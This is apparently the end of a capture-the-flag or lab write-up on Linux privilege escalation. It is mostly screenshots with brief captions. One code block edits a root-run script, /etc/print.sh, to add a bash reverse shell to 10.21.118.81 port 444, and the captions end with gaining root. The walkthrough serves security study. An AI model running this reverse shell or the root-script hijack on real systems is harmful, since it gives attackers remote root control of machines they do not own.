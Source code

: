 <h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/52c0a12e-2cc0-4bbd-b819-8d8fa7ae07a7"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/145fd73a-a17a-44d8-9e13-f2de66822a73"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/092f65eb-cdbf-45e2-b017-c5e831195861"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/d293686c-242e-4807-a9d2-77a4cb3f361f"></picture><br>As we can see it is executing what we put in the sinstructions, now we only have to modify again the print.sh file and put inside it something that gives us a shell to elevate our privileges since all this is executed as root.</h3>

```bash
nano /etc/print.sh
bash -i >& /dev/tcp/10.21.118.81/444 0>&1
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/fe67fb96-09ff-4ff4-aa91-be8c114874ab"></picture><br>SHELL</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/95694f41-86e8-40f1-9454-688a4b571837"></picture><br>we wait for</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/b9395508-8cf0-486c-8d38-86c355ecdc7e"></picture><br>We are "root"</h3>

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/661cf5e5-7769-4da4-a053-d17b0769a702"></picture><br></h3>

